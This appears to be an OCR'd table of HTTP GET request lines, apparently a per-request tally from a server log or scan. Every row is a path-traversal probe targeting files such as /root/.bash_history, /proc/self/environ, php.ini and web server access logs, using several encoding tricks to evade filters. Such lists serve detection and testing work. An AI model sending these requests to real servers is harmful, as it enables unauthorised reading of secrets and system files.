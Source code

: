 |  890 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cvar/log/apache2/access.log HTTP/1.1                                         |
|  891 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cvar/log/apache2/access.log HTTP/1.1                                               |
|  892 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cvar/log/apache2/access.log HTTP/1.1                                   |
|  893 |                     1 | GET /root/.bash_history HTTP/1.1                                                                                     |
|  894 |                     1 | GET ///////root/.bash_history HTTP/1.1                                                                               |
|  895 |                     1 | GET /////////////root/.bash_history HTTP/1.1                                                                         |
|  896 |                     1 | GET //.//.//.//.//.//./root/.bash_history HTTP/1.1                                                                   |
|  897 |                     1 | GET /../../../../../../root/.bash_history HTTP/1.1                                                                   |
|  898 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fetc/php.ini HTTP/1.1                                                  |
|  899 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afroot/.bash_history HTTP/1.1                                     |
|  900 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afroot/.bash_history HTTP/1.1                   |
|  901 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Croot/.bash_history HTTP/1.1                                                 |
|  902 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5croot/.bash_history HTTP/1.1                                                       |
|  903 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255croot/.bash_history HTTP/1.1                                           |
|  904 |                     1 | GET /proc/self/environ HTTP/1.1                                                                                      |
|  905 |                     1 | GET ///////proc/self/environ HTTP/1.1                                                                                |
|  906 |                     1 | GET /////////////proc/self/environ HTTP/1.1                                                                          |
|  907 |                     1 | GET //.//.//.//.//.//./proc/self/environ HTTP/1.1                                                                    |
|  908 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252froot/.bash_history HTTP/1.1                                           |
|  909 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc/php.ini HTTP/1.1                                            |
|  910 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afetc/php.ini HTTP/1.1                          |
|  911 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cetc/php.ini HTTP/1.1                                                        |
|  912 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cetc/php.ini HTTP/1.1                                                              |
|  913 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cetc/php.ini HTTP/1.1                                                  |
|  914 |                     1 | GET ///////var/log/nginx/access.log HTTP/1.1                                                                         |
|  915 |                     1 | GET /////////////var/log/nginx/access.log HTTP/1.1                                                                   |
|  916 |                     1 | GET //.//.//.//.//.//./var/log/nginx/access.log HTTP/1.1                                                             |
|  917 |                     1 | GET /../../../../../../var/log/nginx/access.log HTTP/1.1                                                             |
|  918 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afvar/log/apache2/access.log HTTP/1.1                             |
|  919 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afvar/log/nginx/access.log HTTP/1.1                               |
|  920 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afvar/log/nginx/access.log HTTP/1.1             |
|  921 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cvar/log/nginx/access.log HTTP/1.1                                           |
|  922 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cvar/log/nginx/access.log HTTP/1.1                                                 |
|  923 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cvar/log/nginx/access.log HTTP/1.1                                     |
|  924 |                     1 | GET ///////var/log/apache2/access.log HTTP/1.1                                                                       |
|  925 |                     1 | GET /////////////var/log/apache2/access.log HTTP/1.1                                                                 |
|  926 |                     1 | GET //.//.//.//.//.//./var/log/apache2/access.log HTTP/1.1                                                           |